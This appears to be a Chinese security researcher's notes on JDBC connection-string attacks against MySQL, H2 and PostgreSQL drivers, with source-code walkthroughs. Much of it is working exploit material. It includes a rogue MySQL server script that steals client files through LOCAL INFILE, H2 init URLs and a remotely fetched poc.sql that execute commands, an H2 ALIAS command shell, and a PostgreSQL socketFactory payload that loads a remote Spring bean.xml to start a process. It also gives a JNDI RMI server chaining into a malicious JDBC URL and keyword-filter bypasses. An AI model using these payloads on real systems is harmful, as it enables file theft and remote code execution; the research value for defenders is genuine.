load data local infile "C:\\Users\\jie\\Desktop\\learn\\java\\TOOLS\\mysql\\large_binary_file.bin" into table large_text_table;
package mysql;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.Statement;
public class contect_test {
public static void main(String[] args) throws Exception{
String Driver = "com.mysql.cj.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/newtest?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
String read_URL="jdbc:mysql://127.0.0.1:3306/newtest?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&serverTimezone=Asia/Shanghai";
Class.forName(Driver);
// Connection conn = DriverManager.getConnection(DB_URL,"root","123456");
Connection conn = DriverManager.getConnection(read_URL,"root","123456");
Statement statement = conn.createStatement();
// 5.执行SQL的对象去执行SQL，返回结果集
String sql = "load data local infile \"C:\\\\Users\\\\jie\\\\Desktop\\\\learn\\\\java\\\\TOOLS\\\\mysql\\\\large_binary_file.bin\" into table large_text_table;";
ResultSet resultSet = statement.executeQuery(sql);
System.out.println(resultSet);
}
}
下面这个图是mysql终端去执行的流量，发现远远没到0xffff就分段传输了
load data local infile "C:\\Users\\jie\\Desktop\\learn\\java\\TOOLS\\mysql\\large_binary_file.bin" into table large_text_table;
然后用java当client去连接mysql传输，发现确实是
3byte代表长度，然后我有想看看超过0xffffff又会怎么样呢于是给python脚本
target_size = 0x1100000生成新文件发现上限是
0x0ffff4，然后进行分段传输，这是没有设置maxAllowedPacket=655360的情况如果设置了
maxAllowedPacket，分段最大值<maxAllowedPacket设置值
第二个数据包

0x02 恶意服务构造
流程理解
分析流程中可以知道其实就是下图这一步变成了SHOW VARIABLES，然后我们mysql端设置返回了一个MySQL Protocol - local infile,然后java根据这个数据包，返回我们要读取的文件内容
然后我改了一个最简单的demo
import socket
import binascii
import os
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"
def receive_data(conn):
data = conn.recv(1024)
print("[*] Receiveing the package : {}".format(data))
return str(data).lower()
def send_data(conn,data):
print("[*] Sending the package : {}".format(data))
conn.send(binascii.a2b_hex(data))
# 主要逻辑
def run():
while 1:
conn, addr = sk.accept()
print("Connection come from {}:{}".format(addr[0],addr[1]))
# 1.先发送第一个 问候报文
send_data(conn,greeting_data)
while True:
# 登录认证过程模拟 1.客户端发送request login报文 2.服务端响应response_ok
receive_data(conn)
send_data(conn,response_ok_data)
#其他过程
data=receive_data(conn)
#查询一些配置信息,其中会发送自己的 版本号
if "session.auto_increment_increment" in data:
_payload='42000001fb433a5c55736572735c6a69655c4465736b746f705c6c6561726e5c6a6176615c544f4f4c535c6d7973716c5c6c617267655f62696e6172795f66696c652e62696e'
send_data(conn,_payload)
data=receive_data(conn)
data=receive_data(conn)
print(data[:100])
elif "show warnings" in data:
_payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
send_data(conn, _payload)
data = receive_data(conn)
if "show warnings" in data:
payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
send_data(conn, payload)
break
if __name__ == '__main__':
HOST ='0.0.0.0'
PORT = 3307
sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sk.bind((HOST, PORT))
sk.listen(1)
print("start fake mysql server listening on {}:{}".format(HOST,PORT))
run()
测试发现是可行的，就是分析中进入第一个if (client向mysql端请求select一堆东西)，我们直接返回一个MySQL Protocol - local infile数据包，java客户端接收就会去读取文件发送给我们mysql恶意服务端了
然后分解下MySQL Protocol - local infile流量包
42 00 00这个包的总长度(小端序，00 00 42=>66)
01Packet Number的值，代表是第一个Packet
fb代表LOCAL INFILE Packet类型fb后面的就是
文件名了
也就是需要计算下长度就行了
0x0end 小结
我们分析可以发现就是，java这边mysql初始化，其实并没有向mysql请求
load data local infile，但是却能利用这个点，这其实是java处理mysql返回信息的代码逻辑有关，java客户端发送每个Request Query请求后，处理mysql返回的数据时都会来到TextResultsetReader#read，而这个通过columnCount区分是字段结果还是Response LOCAL INFILE，是Response LOCAL INFILE就会向mysql服务端发送对应的信息也就是说，只要java客户端发送
Request Query请求，我们就能返回一个Response LOCAL INFILE数据包进行利用
绕过mysql jdbc 关键字
true可以用YES
mysql 8.0.x 会进行一次url解密，可以套一层url加密
0x4 H2
$$在h2中代表设置函数
这里会反射调用我们设置的方法

load:87, TriggerObject (org.h2.schema)
setTriggerAction:149, TriggerObject (org.h2.schema)
setTriggerSource:142, TriggerObject (org.h2.schema)
update:125, CreateTrigger (org.h2.command.ddl)
update:139, CommandContainer (org.h2.command)
executeUpdate:304, Command (org.h2.command)
executeUpdate:248, Command (org.h2.command)
openSession:280, Engine (org.h2.engine)
createSession:201, Engine (org.h2.engine)
connectEmbeddedOrServer:344, SessionRemote (org.h2.engine)
<init>:124, JdbcConnection (org.h2.jdbc)
connect:59, Driver (org.h2)
getConnection:681, DriverManager (java.sql)
getConnection:252, DriverManager (java.sql)
main:9, H2
0x01 TRIGGER RCE
javascript
在JDK15 中
JavaScript /Nashorn引擎被彻底移除(也就是jdk15以上用不了//javascript这种方式rce，jsEngine会为null然后空指针报错)
环境
jdk8u20
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.200</version>
</dependency>
package h2;
import java.sql.DriverManager;
public class H2 {
public static void main(String[] args) throws Exception {
Class.forName("org.h2.Driver");
String simplexp2 ="jdbc:h2:mem:test;init=CREATE TRIGGER TRIG_JS AFTER INSERT ON INFORMATION_SCHEMA.TABLES AS '//javascript\n" +
"Java.type(\"java.lang.Runtime\").getRuntime().exec(\"calc\")'";
java.sql.Connection conn = DriverManager.getConnection(simplexp2);
}
}
H2解析流程
先是url，这里ConnectionInfo#readSettingsFromURL会对this.url做处理，原始传入的String u(demo中的simplexp2)在;前的值覆盖给this.url，后面的值再通过;分割成一个array，每组会进行=查找，没有找到会报错
private void readSettingsFromURL() {
DbSettings defaultSettings = DbSettings.getDefaultSettings();
int idx = url.indexOf(';');
if (idx >= 0) {
String settings = url.substring(idx + 1);
url = url.substring(0, idx);
String[] list = StringUtils.arraySplit(settings, ';', false);
for (String setting : list) {
if (setting.isEmpty()) {
continue;
}
int equal = setting.indexOf('=');
if (equal < 0) {
throw getFormatException();
}
...
name是url中后半段值，然后进入parseName()
我们这里是mem:test，会让persistent = false;
tcp:和ssl:会开启远程remote=true，后面一处remote的判断会进行远程连接
上面让persistent = false;是有用的，后面调用getName()时，可以直接返回name（下图我用的mem，所以persistent = false），不然name不符合下面格式会被throw
init
Engine#openSession
这里获取到我们设置的INIT，然后进入session.prepareCommand
String init = ci.removeProperty("INIT", null);
后面h2读取sql命令进行赋值，前面还有很多赋值，这里记录triggerSource的设置
然后返回，command初始化完成
然后来到loadFromSource()，调用执行

利用点在org.h2.schema.TriggerObject#loadFromSource，这里会检验triggerSource，是以//javascript开头会调用下面eval()
判断开头
然后先进入getCompiledScript()，这里JDK15 中 JavaScript /Nashorn引擎被彻底移除(也就是jdk15以上用不了//javascript这种方式rce，jsEngine会为null然后空指针报错)
下图为jdk17版本，jsEngine会为null，下一步就会报错中断

回到上文new ScriptEngineManager().getEngineByName(lang);看他是怎么获取
看到names
“nashorn”, “Nashorn”, “js”, “JS”, “JavaScript"等
然后names和我们传入的name进行匹对，匹配到返回初始化的engine
这里找到javascript就会return，那是不是当
javascript被黑名单的时候可以利用上面这些进行绕过呢？其实不然hhhh，因为走到这之前就严格对//javascript前缀进行了匹对，且lang也是被限制的
if (isJavascriptSource(source)) { lang = "javascript";
0x02 绕过//javascript
上面不是说了么，JDK15之后用不了javascript了
String simplexp2 ="jdbc:h2:mem:test;init=CREATE TRIGGER TRIG_JS AFTER INSERT ON INFORMATION_SCHEMA.TABLES AS $$ void shell() throws Exception {\n" +
"java.lang.Runtime.getRuntime().exec(\"calc\")\\;}$$";
java.sql.Connection conn = DriverManager.getConnection(simplexp2);
//BEFORE SELECT ON
这里有个细节，shell函数里那个;要转义，不然会被当成h2初始化的参数分割符，导致}$$会被切割掉
简单分析下
这里跟进到TRIGGER关键字，这个关联后面设置this.triggerSource
然后我们直接跟到compiler.getMethod()这步
在跟进getClass(className);
public Method getMethod(String className) throws ClassNotFoundException {
Class<?> clazz = getClass(className);
Method[] methods = clazz.getDeclaredMethods();
...
这里上面代码获取都是null，然后直接到classLoader.loadClass(packageAndClassName)；
这里classLoader是SourceCompiler这个类本身，loadClass()里面会调用findClass()来查找类，也就会调用下方的findClass方法，主要逻辑就在这
先是这里getCompleteSourceCode()会补全完整的class文件的代码，source就是上面shell函数那段代码
然后通过javaxToolsJavac去加载那个class，然后put到一个map中，并返回这个class对象
然后就是水到渠成啦，调用invoke触发恶意方法
0x03 INIT RunScript RCE
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
poc.sql
DROP ALIAS IF EXISTS shell;
CREATE ALIAS shell AS $$void shell(String s) throws Exception {
java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc');
RunScriptCommand#update中，远程poc.sql存储在in中，然后通过while循环执行每一条sql语句，一次执行一条
$$逻辑
初始化，通过CHAR_DOLLAR_QUOTED_STRING(值为9)，作为占位符

read的时候通过匹对CHAR_DOLLAR_QUOTED_STRING，得到末位index，然后截取字符串得到我们的函数内容
绕过$
然后查看相关代码，发现这里用'也是可以代替$的，但是"以及其他字符就不好利用了
H2中"和`包裹的字符，会被当成字段，read()后会查询这个字段是否存在。所以这里"双引号代替不了
还有一点是远程获取的问题
看到r.readStatement();，看下他远程获取的逻辑
逻辑在ScriptReader#readStatementLoop
可以看到正常情况读取到;就会结束，但是我们java函数代码语句是需要;后面那个}就会被截断掉
而这里只有'，"，$$，/**/,--会一直读取，其包裹的内容
private String readStatementLoop() throws IOException {
bufferStart = bufferPos;
int c = read();
while (true) {
if (c < 0) {
endOfFile = true;
if (bufferPos - 1 == bufferStart) {
return null;
}
break;
} else if (c == ';') {
break;
}
switch (c) {
case '$': {
c = read();
if (c == '$' && (bufferPos - bufferStart < 3 || buffer[bufferPos - 3] <= ' ')) {
// dollar quoted string
while (true) {
c = read();
if (c < 0) {
break;
}
if (c == '$') {
c = read();
if (c < 0) {
break;
}
if (c == '$') {
break;
}
}
}
c = read();
}
break;
}
case '\'':
while (true) {
c = read();
if (c < 0) {
break;
}
if (c == '\'') {
break;
}
}
c = read();
break;
case '"':
while (true) {
c = read();
if (c < 0) {
break;
}
if (c == '\"') {
break;
}
}
c = read();
break;
case '/': {
c = read();
if (c == '*') {
// block comment
startRemark(true);
while (true) {
c = read();
if (c < 0) {
break;
}
if (c == '*') {
c = read();
if (c < 0) {
clearRemark();
break;
}
if (c == '/') {
endRemark();
break;
}
}
}
c = read();
} else if (c == '/') {
// single line comment
startRemark(false);
while (true) {
c = read();
if (c < 0) {
clearRemark();
break;
}
if (c == '\r' || c == '\n') {
endRemark();
break;
}
}
c = read();
}
break;
}
case '-': {
c = read();
if (c == '-') {
// single line comment
startRemark(false);
while (true) {
c = read();
if (c < 0) {
clearRemark();
break;
}
if (c == '\r' || c == '\n') {
endRemark();
break;
}
}
c = read();
}
break;
}
default: {
c = read();
}
}
}
return new String(buffer, bufferStart, bufferPos - 1 - bufferStart);
}
0x04 H2数据库利用 ALIAS
下载jar，然后我下的是最新版本的，要用jdk17启动，然后直接Connect，就有一个在线h2数据库了
http://www.h2database.com/html/cheatSheet.html
C:\Users\jie\Desktop\Java_Test>C:\MyFiles\Tools\ENV\JAVA\jdk17\bin\java.exe -cp .\h2-2.3.232.jar org.h2.tools.Server -web -webAllowOthers -ifNotExists
Web Console server running at http://192.168.141.1:8082 (others can connect)
回显
但是这个回显感觉不适用于jdbc，简单看了下jdbc代码，没见返回return的地方
DROP ALIAS IF EXISTS SHELLEXEC ;
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;
//调用SHELLEXEC执行命令
CALL SHELLEXEC('whoami');
CALL SHELLEXEC('ipconfig');
0x4 PostgreSQL
环境
<dependency>
<groupId>org.postgresql</groupId>
<artifactId>postgresql</artifactId>
<version>42.3.1</version>
</dependency>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-core</artifactId>
<version>5.3.28</version>
</dependency>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-expression</artifactId>
<version>5.3.28</version>
</dependency>
<dependency>
<groupId>commons-logging</groupId>
<artifactId>commons-logging</artifactId>
<version>1.2</version>
</dependency>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-beans</artifactId>
<version>5.3.28</version>
</dependency>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-context</artifactId>
<version>5.3.28</version>
</dependency>
package PostgreSQL;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;
public class PsqlJDBCRCE {
public static void main(String[] args) throws SQLException {
String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
String socketFactoryArg = "http://127.0.0.1:8000/bean.xml";
String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
Connection connection = DriverManager.getConnection(jdbcUrl);
}
}
0x01 分析
Driver这里对参数进行分类
SocketFactoryFactory这里读取出工厂类，并通过ObjectFactory.instantiate()实例化这个类
最后一个参数 PGProperty.SOCKET_FACTORY_ARG.get(info) 获取的我们传入的socketFactoryArg
然后这里自构方法调用是有顺序的
-
Properties.class 参数类型的
-
没有才会调用 String.class
这里虽然要看
tryString参数，但是在上一步，这个地方是写死的为truereturn (SocketFactory)ObjectFactory.instantiate(socketFactoryClassName, info, true, PGProperty.SOCKET_FACTORY_ARG.get(info)); -
最后才会调用
无参自构方法
然后如果是String.class，参数值就是我们设置的socketFactoryArg
0x02 ClassPathXmlApplicationContext
之后则调用了ClassPathXmlApplicationContext String.class的自构方法
new ClassPathXmlApplicationContext("http://127.0.0.1:8000/bean.xml");
跟随调用refreshBeanFactory()这里去接收bean.xml数据，生成this.beanFactory对象
loadBeanDefinitions()里会去请求设置的地址
<bean id="pb" class="java.lang.ProcessBuilder">
<constructor-arg value="calc.exe" />
<property name="whatever" value="#{ pb.start() }"/>
</bean>
然后会去实例化id对应的class，且调用对应的自构方法，然后再
实例化通过SimpleInstantiationStrategy的BeanUtils.instantiateClass()实现
然后就是就是执行最后el表达式了，先去找对应的method，然后反射invoke调用
JDBC 总体分析 理解
1.DriverManager.getConnection()这个方法有3种传参方式，最后其实都殊途同归，也就是说随便一种都能利用JDBC
2.就是选择哪个数据库，他这里是通过一个for然后按照顺序依次connect的，registeredDrivers猜测是获取依赖中存在的数据库
0x5 End JDBC+JNDI
依赖
<dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-dbcp</artifactId>
<version>8.5.56</version>
</dependency>
以Tomcat8的org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory为例
server
package jndi;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.util.Properties;
public class RMIServer {
public static void main(String[] args) throws Exception{
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
InitialContext ctx = new InitialContext(env);
LocateRegistry.createRegistry(1099);
Reference ref = new Reference("javax.sql.DataSource","org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory",null);
ref.add(new StringRefAddr("url", "jdbc:mysql://127.0.0.1:3307/test?allowLoadLocalInfile=YES&allowUrlInLocalInfile=true"));
ref.add(new StringRefAddr("initialSize", "2"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
ctx.bind("Jie", referenceWrapper);
}
}
client
package jndi;
import javax.naming.InitialContext;
public class JNDIDemo {
public static void main(String[] args) throws Exception {
InitialContext ctx = new InitialContext();
ctx.lookup("rmi://127.0.0.1:1099/Jie");
}
}
然后在BasicDataSourceFactory#getObjectInstance中，一直调用会调到connect()且url是可控的，及可以利用JDBC，调用栈放下面了（不想每个截图占地方了）
createConnection:55, DriverConnectionFactory (org.apache.tomcat.dbcp.dbcp2)
makeObject:355, PoolableConnectionFactory (org.apache.tomcat.dbcp.dbcp2)
validateConnectionFactory:114, BasicDataSource (org.apache.tomcat.dbcp.dbcp2)
createPoolableConnectionFactory:664, BasicDataSource (org.apache.tomcat.dbcp.dbcp2)
createDataSource:543, BasicDataSource (org.apache.tomcat.dbcp.dbcp2)
getLogWriter:1076, BasicDataSource (org.apache.tomcat.dbcp.dbcp2)
createDataSource:561, BasicDataSourceFactory (org.apache.tomcat.dbcp.dbcp2)
getObjectInstance:238, BasicDataSourceFactory (org.apache.tomcat.dbcp.dbcp2)
然后简单说说poc的构造吧，就是那几个参数
BasicDataSourceFactory#getObjectInstance中,会对ClassName进行判断，所以设置这个值
if (!"javax.sql.DataSource".equals(ref.getClassName())) {
return null;
}
上面这里会对我们的Reference.addrs中元素进行获取并存到这个properties进行后面createDataSource()的赋值
这里有两个是关键值要赋予，一个是url，另一个是initialSize

因为下面有个if我们要进入，所以设置initialSize>0即可
if (dataSource.getInitialSize() > 0) {
dataSource.getLogWriter();
}
而最后调用的this.connectionString的值，正是来自BasicDataSource的this.url，也就是上图dataSource.setUrl(value);这个地方设置的值
调用成功！
参考
h2
https://xz.aliyun.com/news/15960
https://xz.aliyun.com/news/13371
mysql